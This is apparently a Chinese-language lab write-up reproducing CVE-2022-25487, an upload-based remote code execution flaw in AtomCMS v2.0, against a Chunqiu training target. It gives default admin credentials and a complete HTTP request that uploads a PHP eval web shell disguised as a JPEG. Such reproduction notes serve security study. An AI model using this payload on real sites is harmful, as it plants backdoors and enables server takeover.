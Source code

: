 ```yaml
---
title: CVE-2022-25487【RCE】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'RCE'
---
```


## 1. 漏洞介绍

[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2022-25487)

## 2. 漏洞分析

[An Unauthorized Remote Code Execution vulnerability exists in AtomCMS v2.0. · Issue #256 · thedigicraft/Atom.CMS · GitHub](https://github.com/thedigicraft/Atom.CMS/issues/256)

## 3. 漏洞复现

穿插

> 访问/admin登录

> `alan@alan.com/password`

![1.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309122212110.jpg)

根据漏洞分析直接访问漏洞点，`http://eci-2ze8y6cz5vt0k6pn2o3h.cloudeci1.ichunqiu.com/admin/uploads.php?id=1` 然后 burpsuite 抓包修改为以下示例内容后重放。

POC 示例

```http
POST http://eci-2ze8y6cz5vt0k6pn2o3h.cloudeci1.ichunqiu.com/admin/uploads.php?id=1 HTTP/1.1
Host: eci-2ze8y6cz5vt0k6pn2o3h.cloudeci1.ichunqiu.com
Content-Type: multipart/form-data; boundary=---------------------------30623082103363803402542706041
Connection: close
Content-Length: 355

-----------------------------30623082103363803402542706041
Content-Disposition: form-data; name="file"


-----------------------------30623082103363803402542706041
Content-Disposition: form-data; name="file"; filename="cmd.php"
Content-Type: image/jpeg


<?php @eval($_POST['cmd']);?>
-----------------------------30623082103363803402542706041--
```

![2.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309122215695.jpg)

![3.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309122208878.jpg)

![4.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309122209311.jpg)
